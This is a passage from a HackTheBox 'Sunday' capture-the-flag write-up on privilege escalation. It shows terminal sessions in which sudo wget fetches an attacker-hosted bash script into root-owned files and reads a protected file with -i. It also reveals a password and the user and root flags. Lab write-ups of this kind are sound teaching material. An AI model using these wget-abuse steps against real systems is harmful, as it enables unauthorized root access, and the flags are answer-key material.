 ```bash
- Own Terminal -
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Sunday]
└─# cat troll   
#!/usr/bin/bash
bash

┌──(root㉿shiro)-[/home/shiro/HackTheBox/Sunday]
└─# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.76 - - [24/Jul/2022 20:29:33] "GET /troll HTTP/1.1" 200 -

- SSH Shell -
sammy@sunday:~$ sudo wget http://10.10.14.5/troll -O /root/troll
sammy@sunday:~$ sudo /root/troll
Password: 
sammy@sunday:~$ ps aux
USER       PID %CPU %MEM   SZ  RSS TT       S    START  TIME COMMAND
...
root       119  0.0  0.212544 3160 ?        S 11:08:59  0:00 /usr/bin/bash /lib/svc/method/overwrite
...
sammy@sunday:~$ cat /lib/svc/method/overwrite
cat: cannot open /lib/svc/method/overwrite: Permission denied
```

Seems like we can’t `cat` the file due to restricted privileges. However, `wget` can be used to read files as well using `-i`!

```bash
sammy@sunday:~$ sudo wget -i /lib/svc/method/overwrite
/lib/svc/method/overwrite: Invalid URL http://#!/usr/bin/bash: Invalid host name
/lib/svc/method/overwrite: Invalid URL /usr/gnu/bin/cat /root/troll.original > /root/troll: Scheme missing
/lib/svc/method/overwrite: Invalid URL /usr/gnu/bin/sleep 5: Scheme missing
--2022-07-24 12:33:51--  http://while%20true;%20do/
Resolving while true; do (while true; do)... failed: temporary name resolution failure.
wget: unable to resolve host address 'while true; do'
--2022-07-24 12:33:51--  http://done/
Resolving done (done)... failed: temporary name resolution failure.
wget: unable to resolve host address 'done'
```

Oh! It looks like the `overwrite` file is overwriting the `bash` file from `troll.original`.

So the file we should be replacing is `troll.original` and not `troll`!

```bash
sammy@sunday:~$ sudo wget http://10.10.14.5/troll -O /root/troll.original 
```

Finally, we wait for awhile for the `overwrite` script to run before we can run the new `troll` program.

```bash
sammy@sunday:~$ sudo /root/troll
Password: cooldude!
root@sunday:/home/sunny# cd ..
root@sunday:/home# ls
sammy  sunny
root@sunday:/home/sammy# cd ..
root@sunday:/home# cat /home/sammy/user.txt 
a3d9498027ca5187ba1793943ee8a598
root@sunday:/home# cat /root/root.txt 
fb40fab61d99d37536daeec0d97af9b8
```
